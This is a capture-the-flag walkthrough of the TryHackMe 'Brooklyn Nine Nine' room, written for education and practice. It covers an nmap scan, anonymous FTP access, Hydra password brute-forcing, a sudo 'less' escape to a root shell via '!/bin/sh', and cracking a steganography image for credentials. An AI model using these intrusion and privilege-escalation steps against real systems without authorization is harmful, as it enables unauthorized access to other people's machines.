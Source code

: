 ```yaml
---
layout: post
title: Brookyln Nine Nine Writeup
categories: [TryHackMe]
tags: [Misconfigured FTP, Steganography, Bruteforce]
---
```

 
# Brooklyn Nine Nine walkthrough.
This room is aimed for beginner level hackers but anyone can try to hack this box. There are two main intended ways to root the box, you can check it out here: [Tryhackme](https://www.tryhackme.com/room/brooklynninenine)
          
          
# ~$ Preface
First off I am personally a huge fan of the show, (Amy is my fav character btw I'm sure yunno why lol) and It's a quite easy one, but no worries if you're stuck I'll walk you through buddy;) but first I'll leave hints to stimulate your mind:

![image](https://github.com/Rami3ll/Rami3ll.github.io/blob/main/assets/img/posts/brooklyn99.jpg)


# ~$ Hints
- checked source code yet??
- Port 80 exists for a reason yunno?
- Hmph, just a picture? 
- Bruteforcing steg?

First things first, a Portscan so we know our attack surface:

```
┌──(azazel㉿azazel)-[~/Tryhackme/Brooklyn99]
└─$ nmap -sC -sV 10.10.24.94 -Pn -vv -p 1-1024 -T4 --open  
21/tcp open  ftp     syn-ack vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.45.27
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDQjh/Ae6uYU+t7FWTpPoux5Pjv9zvlOLEMlU36hmSn4vD2pYTeHDbzv7ww75UaUzPtsC8kM1EPbMQn1BUCvTNkIxQ34zmw5FatZWNR8/De/u/9fXzHh4MFg74S3K3uQzZaY7XBaDgmU6W0KEmLtKQPcueUomeYkqpL78o5+NjrGO3HwqAH2ED1Zadm5YFEvA0STasLrs7i+qn1G9o4ZHhWi8SJXlIJ6f6O1ea/VqyRJZG1KgbxQFU+zYlIddXpub93zdyMEpwaSIP2P7UTwYR26WI2cqF5r4PQfjAMGkG1mMsOi6v7xCrq/5RlF9ZVJ9nwq349ngG/KTkHtcOJnvXz
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBItJ0sW5hVmiYQ8U3mXta5DX2zOeGJ6WTop8FCSbN1UIeV/9jhAQIiVENAW41IfiBYNj8Bm+WcSDKLaE8PipqPI=
|   256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIP2hV8Nm+RfR/f2KZ0Ub/OcSrqfY1g4qwsz16zhXIpqk
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
Perfect, port 21, 22 and 80, ftp, ssh and http all present, lets get to it then...

# ~$ First method::
Got anon logins allowed on ftp, so, swiftly I log in to "get" the file we see from our script scan: "note_to_jake.txt" where Amy gives us a clear hint(See why I like her?)::

```
┌──(azazel㉿azazel)-[~/Tryhackme/Brooklyn99]
└─$ ftp 10.10.24.94
Connected to 10.10.24.94.
220 (vsFTPd 3.0.3)
Name (10.10.24.94:azazel): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
226 Directory send OK.
ftp> get note_to_jake.txt
local: note_to_jake.txt remote: note_to_jake.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for note_to_jake.txt (119 bytes).
226 Transfer complete.
119 bytes received in 0.00 secs (378.5372 kB/s)
```
I read the file and get the clue that Jake is using weak creds(Classic Jake), 
```
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```
hehee I let Hydra do his thing::
![image](https://github.com/Rami3ll/Rami3ll.github.io/blob/main/assets/img/posts/B991edit.png)

Welp, Jake was not the root user and the user.txt is also not his or in his home directory, I navigated to Holt's and found the user.txt flag,  
before scp or wget...ing any Privesc script I like to manually check for LPE vectors apparently we have sudo permissions to use "less". [gtfobins](https://gtfobins.github.io/) says we can use this for privesc like so::

![image](https://github.com/Rami3ll/Rami3ll.github.io/blob/main/assets/img/posts/b99Privesc.png)
next::
```
sudo less /etc/profile 
```
And append 
```
!/bin/sh
```
And that's it we are root! read the file, submit the flags.

Why this was fun is because it made me understand the relevance of the /etc/profile config file, it is basically a root owned file that is ran on login of any user as a child process of systemd(like all processes are) that controls system-wide default variables especially terminal type in our case scenerio, us having priviledged access to the "less" command utility which provides a "vim or a vim-like interface" to read files and edit binaries, leveraging that allowed us carry out command operations within the file with the "less" binary allowing us spawn a root shell.



# ~$ Second Intended Method
Won't be posting images to display cause I forgot to document this part lol, but its pretty basic, I'll give the steps here ;
- Visited port 80 and checked source code which gave the clue:
 ```
 Have you ever head of steganography?
 ```
- Downloaded the image being served on port 80 through the server, Yes the seemingly unsuspecting image.
  Tried a few common passwords and failed swiftly and then decided to google-fu a little for tools to bruteforce a steg image and found two: stegcracker and stegseek, although stegseek is more revered due to it's speed but I prefer stegcracker on multithread mode :)
 
- Then I used Stegcracker:
```
sudo apt install stegcracker
```
![image](https://github.com/Rami3ll/Rami3ll.github.io/blob/main/assets/img/posts/steg-bb9.png)

- cat the output file, from using the pass to extract the stego image and it gives us this::

``` 
Holts Password:
fl#################e

Enjoy!!
```

- It gives us Holts ssh creds, I log in, Holt has a different sudo permission, easy fix: used [gtfobins](https://gtfobins.github.io/) and got root!
And thats it!


Greetings, from [Rami3l](https://www.tryhackme.com/p/Rami3l).



